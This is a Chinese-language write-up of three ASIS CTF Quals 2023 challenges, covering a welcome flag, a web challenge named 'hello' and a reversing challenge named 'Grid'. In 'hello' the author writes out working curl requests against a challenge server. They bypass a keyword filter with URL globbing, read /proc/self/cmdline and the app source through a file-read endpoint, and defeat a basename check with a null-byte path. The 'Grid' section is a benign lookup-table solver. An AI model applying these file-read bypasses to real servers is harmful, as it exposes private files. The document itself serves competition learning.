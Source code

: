 # ASIS CTF Quals 2023 Writeup

- Team name：`clpcs`

## Greetings

- Flag：`ASIS{w3lc0m3_70_4S1S_C7F!_H3r3'5_70_4n_3xc171n6_4nd_ch4113n63_3xp3r13nc3!}}`

### 解題流程與思路
簽到題。

**解題過程：**
COPY & PASTE

**取得 flag 的畫面：**
![Greetings_flag](image/Greetings_flag.png)

## hello

- Flag：`ASIS{good_job_bun}`

### 解題流程與思路

**解題過程：**
1. 給了一個網址，直接連看看 `curl http://45.147.231.180:8000`
2. 得到一份 `php` code 如下，可以知道目標是要取得 `/next.txt`，且於網址中加入 `x` 參數會被拿去 check 是否包含 `file`、`next`，如無責該網頁會執行 `system('curl '.escapeshellarg($_GET['x']))`，可以以 Server 的身分取得某個東西，且因為 escapeshellarg 只能被當成一個參數。
    ```php
    <?php
    /*
    Read /next.txt
    Hint for beginners: read curl's manpage.
    */
    highlight_file(__FILE__);
    $url = 'file:///hi.txt';
    if(
        array_key_exists('x', $_GET) &&
        !str_contains(strtolower($_GET['x']),'file') && 
        !str_contains(strtolower($_GET['x']),'next')
    ){
        $url = $_GET['x'];
    }
    system('curl '.escapeshellarg($url));
    ```
3. 透過 `curl file:///next.txt` 即可取得目標，但會被判到 `file`、`next`，再詳閱 manpage 後發現可以透過 `curl fil[e-f]:///n[e-f]xt.txt` 的方式使 `curl` 訪問 `file:///next.txt`、`file:///nfxt.txt`、`filf:///next.txt`、`filf:///nfxt.txt`，且可以避開字串判斷。
4. 透過 unicode encode `fil[e-f]:///n[e-f]xt.txt` 後，放進 `x`。`curl http://45.147.231.180:8000?x=fil%5Be-f%5D%3A%2F%2F%2Fn%5Be-f%5Dxt.txt`，即可得到以下資訊。
    ```
    wow... so next step is available at http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/
    ```
5. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/`，會得以下資訊，得知這個 server 有訪問檔案的功能。
    ```
    did you know i can read files?? amazing right,,, maybe try /39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline
    ```
6. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline | base64 -d`，出來的解果明顯為 base64 過的值，因此先解回去，而 `/proc/self/cmdline` 放的為執行此 `proc` 時是 command。
    ```sh
    /bin/bun-1.0.2/app/index.js
    ```
7. 而此解果應該為 `/bin/bun-1.0.2 /app/index.js`，所以透過該 Server 取得 `/app/index.js`，`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/app/index.js | base64 -d`即可獲得 `index.js`
    ```java
    const fs = require('node:fs');
    const path = require('path')
    
    /*
    I wonder what is inside /next.txt
    */
    
    const secret = '39c8e9953fe8ea40ff1c59876e0e2f28'
    const server = Bun.serve({
    port: 8000,
    fetch(req) {
            let url = new URL(req.url);
            let pname = url.pathname;
            if(pname.startsWith(`/${secret}`)){
        if(pname.startsWith(`/${secret}/read`)){
            try{
            let fpath = url.searchParams.get('file');
            if(path.basename(fpath).indexOf('next') == -1){
                return new Response(fs.readFileSync(fpath).toString('base64'));
            } else {
                return new Response('no way');
            }
            } catch(e){ }
            return new Response("Couldn't read your file :(");
        }
        return new Response(`did you know i can read files?? amazing right,,, maybe try /${secret}/read/?file=/proc/self/cmdline`);
        }
        return
    }
    });
    ```
8. 可以得知目標為 `/next.txt`，且會透過 `path.basename(fpath).indexOf('next') == -1` 確認檔名是否包含 `next`。
9. 由於 `basename` 只會取最後一個 `/` 後的字串，而 `readFileSync` 使用的完整得 path 且字串通常看到 `'\0'` 就會判斷結束，可以基於這些理由構造一個字串。`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/next.txt%00/1 | base64 -d`，即可取得以下資訊。
    ```
    Now it's time for a whitebox challenge.
    Find the hidden subdomain and then a secret endpoint and only then you may receive your flag.
    Link to the website: `anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==`
    ```
10. 再解一次 base64 即可取得 flag `echo 'anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==' | base64 -d`
**取得 flag 的畫面：**
![hello_flag](image/hello_flag.png)

## Grid

- Flag：`ASIS{7Hi5_!Z_4n0tH3R_Ea5Y_WaRmUpUp_cHALleN9E!!}`

比賽中主要 codding 人為隊友，但參與解題思路、debug 過程

### 解題流程與思路

**解題過程：**

1. 首先丟進 IDA 工具 reverse。

2. 可以得到下方 source (根據判斷更改過變數名稱)，先找到程式直接執行會印出的 `Incorrect` 。

   ![Grid_reverse_source_code](D:\Github\CTF\ASIS_CTF_Quals_2023\image\Grid_reverse_source_code.png)

3. 再往前追判斷依據，發現為 `input` 跟 `target `  進行字串判斷，並查找指令從哪裡 load 東西進來。

   ![Grid_target_string](D:\Github\CTF\ASIS_CTF_Quals_2023\image\Grid_target_string.png)

4. 再去追記憶體的資料，然後往下算 `46 bytes`，即為 `input` 應該相同的字串。

   ![Grid_target_data](D:\Github\CTF\ASIS_CTF_Quals_2023\image\Grid_target_data.png)

5. 但往前看會發現 `input` 有經過一些操作，稍加觀察會發現其進行一個查表換值的操作，而可以去追其表所在位置。

   ![Grid_table_data](D:\Github\CTF\ASIS_CTF_Quals_2023\image\Grid_table_data.png)

6. 將該表、`target` 抓下來即可反向查表，尋找 `input` 應該輸入的樣貌。

7. 透過下列程式即可求得，會發現其即為 FLAG。

   ```cpp
   #include <iostream>
   #include <cstring>
   #include <cstdint>
   
   uint8_t DATA[] = {0x01, 0x76, 0x02, 0x2c, 0x03, 0x3b, 0x04, 0x45, 0x05, 0xbd, 0x06, 0xf2, 0x07, 0x92, 0x08, 0x5d, 0x09, 0x91, 0x0a, 0x2d, 0x0b, 0x2e, 0x0c, 0x7f, 0x0d, 0xe9, 0x0e, 0x3c, 0x0f, 0x78, 0x10, 0x9f, 0x11, 0x8a, 0x12, 0xa5, 0x13, 0x71, 0x14, 0x94, 0x15, 0x3f, 0x16, 0xa7, 0x17, 0xdb, 0x18, 0xe8, 0x19, 0xf6, 0x1a, 0xa4, 0x1b, 0x99, 0x1c, 0xe6, 0x1d, 0x22, 0x1e, 0x40, 0x1f, 0xff, 0x20, 0xdc, 0x21, 0xee, 0x22, 0xea, 0x23, 0x24, 0x24, 0x6d, 0x25, 0x58, 0x26, 0x02, 0x27, 0xa2, 0x28, 0xdd, 0x29, 0x86, 0x2a, 0x9e, 0x2b, 0xa1, 0x2c, 0xe1, 0x2d, 0x19, 0x2e, 0xe0, 0x2f, 0x64, 0x30, 0x6a, 0x31, 0xb3, 0x32, 0x5e, 0x33, 0x2b, 0x34, 0xbb, 0x35, 0x38, 0x36, 0x4f, 0x37, 0x30, 0x38, 0x53, 0x39, 0x44, 0x3a, 0x75, 0x3b, 0x65, 0x3c, 0xf9, 0x3d, 0x4b, 0x3e, 0xc1, 0x3f, 0x23, 0x40, 0xb2, 0x41, 0xbe, 0x42, 0xd5, 0x43, 0x05, 0x44, 0x80, 0x45, 0x61, 0x46, 0xfe, 0x47, 0x60, 0x48, 0xe3, 0x49, 0x32, 0x4a, 0x85, 0x4b, 0xf4, 0x4c, 0xcf, 0x4d, 0x5a, 0x4e, 0x3a, 0x4f, 0x43, 0x50, 0xd6, 0x51, 0x6f, 0x52, 0x54, 0x53, 0xb9, 0x54, 0xcc, 0x55, 0xf5, 0x56, 0xb5, 0x57, 0x59, 0x58, 0x16, 0x59, 0xe7, 0x5a, 0xa9, 0x5b, 0xae, 0x5c, 0xf1, 0x5d, 0x08, 0x5e, 0x3e, 0x5f, 0x7d, 0x60, 0xe4, 0x61, 0xde, 0x62, 0xc6, 0x63, 0x1c, 0x64, 0xeb, 0x65, 0xb6, 0x66, 0x97, 0x67, 0x15, 0x68, 0x51, 0x69, 0x7c, 0x6a, 0xad, 0x6b, 0xcd, 0x6c, 0x27, 0x6d, 0x0a, 0x6e, 0x35, 0x6f, 0x5f, 0x70, 0xd4, 0x71, 0x13, 0x72, 0xa0, 0x73, 0x14, 0x74, 0x67, 0x75, 0x7a, 0x76, 0x8c, 0x77, 0x4a, 0x78, 0x72, 0x79, 0x2f, 0x7a, 0xda, 0x7b, 0xef, 0x7c, 0x49, 0x7d, 0x0e, 0x7e, 0xd3, 0x7f, 0xfa, 0x80, 0x3d, 0x81, 0xc0, 0x82, 0x33, 0x83, 0x66, 0x84, 0xaa, 0x85, 0xce, 0x86, 0xfc, 0x87, 0xb0, 0x88, 0x62, 0x89, 0x93, 0x8a, 0x41, 0x8b, 0xd7, 0x8c, 0x48, 0x8d, 0xbf, 0x8e, 0xca, 0x8f, 0xc8, 0x90, 0x03, 0x91, 0x7e, 0x92, 0x0f, 0x93, 0x9b, 0x94, 0xcb, 0x95, 0x56, 0x96, 0xd8, 0x97, 0x79, 0x98, 0x52, 0x99, 0xa3, 0x9a, 0xab, 0x9b, 0x68, 0x9c, 0x42, 0x9d, 0xed, 0x9e, 0x81, 0x9f, 0x84, 0xa0, 0x9c, 0xa1, 0x10, 0xa2, 0x5b, 0xa3, 0x0b, 0xa4, 0x1a, 0xa5, 0x70, 0xa6, 0xf8, 0xa7, 0x63, 0xa8, 0xa6, 0xa9, 0xaf, 0xaa, 0x20, 0xab, 0x98, 0xac, 0x01, 0xad, 0x34, 0xae, 0x29, 0xaf, 0xe2, 0xb0, 0xfb, 0xb1, 0x17, 0xb2, 0x9a, 0xb3, 0xac, 0xb4, 0x04, 0xb5, 0x5c, 0xb6, 0x36, 0xb7, 0xba, 0xb8, 0xd9, 0xb9, 0xb1, 0xba, 0xf7, 0xbb, 0xc3, 0xbc, 0x50, 0xbd, 0xd1, 0xbe, 0xbc, 0xbf, 0xe5, 0xc0, 0x90, 0xc1, 0x25, 0xc2, 0x0c, 0xc3, 0x88, 0xc4, 0xb8, 0xc5, 0x12, 0xc6, 0xd2, 0xc7, 0x1b, 0xc8, 0x47, 0xc9, 0x4d, 0xca, 0xc4, 0xcb, 0x07, 0xcc, 0x1e, 0xcd, 0x87, 0xce, 0x7b, 0xcf, 0x57, 0xd0, 0xf0, 0xd1, 0xfd, 0xd2, 0x55, 0xd3, 0x1d, 0xd4, 0x69, 0xd5, 0xdf, 0xd6, 0x6c, 0xd7, 0x2a, 0xd8, 0xec, 0xd9, 0x6e, 0xda, 0xc7, 0xdb, 0x28, 0xdc, 0x8e, 0xdd, 0xc2, 0xde, 0x82, 0xdf, 0x9d, 0xe0, 0x4e, 0xe1, 0x18, 0xe2, 0x73, 0xe3, 0x95, 0xe4, 0xc9, 0xe5, 0x0d, 0xe6, 0x89, 0xe7, 0x8d, 0xe8, 0x6b, 0xe9, 0x8b, 0xea, 0x46, 0xeb, 0x11, 0xec, 0x21, 0xed, 0x74, 0xee, 0x4c, 0xef, 0x09, 0xf0, 0xf3, 0xf1, 0xc5, 0xf2, 0xd0, 0xf3, 0x83, 0xf4, 0xb7, 0xf5, 0x1f, 0xf6, 0x37, 0xf7, 0xb4, 0xf8, 0x26, 0xf9, 0x06, 0xfa, 0x31, 0xfb, 0x96, 0xfc, 0x39, 0xfd, 0xa8, 0xfe, 0x77, 0xff, 0x8f};
   
   uint8_t targets[] = {0xbe, 0xb9, 0x32, 0xb9, 0xef, 0x30, 0xe3, 0x7c, 0x38, 0x7d, 0xee, 0xa9, 0x7d, 0xbb, 0x35, 0x6a, 0x67, 0xe3, 0x2b, 0x54, 0x7d, 0x61, 0xde, 0x38, 0xe7, 0x7d, 0x59, 0xde, 0x54, 0x0a, 0xf5, 0xd4, 0xf5, 0xd4, 0x7d, 0x1c, 0xe3, 0xbe, 0xcf, 0x27, 0xb6, 0x3a, 0x44, 0x61, 0xee, 0xee, 0x0e};
   
   uint find(uint8_t target){
       for(int i = 0; i < 255; i++){
           if(DATA[i * 2 + 1] == target){
               return i * 2;
           }
       }
       return -1;
   }
   
   int main(){
       for(auto target : targets){
           char tmp = DATA[find(target)];
           std::cout << tmp;
       }
       std::cout << '\n';
       return 0;
   }
   ```

   (事後自己重寫的 code，當初與隊友一起寫的 code 較為凌亂)

 **取得 flag 的畫面：**
![Grid_flag](image/Grid_flag.png)
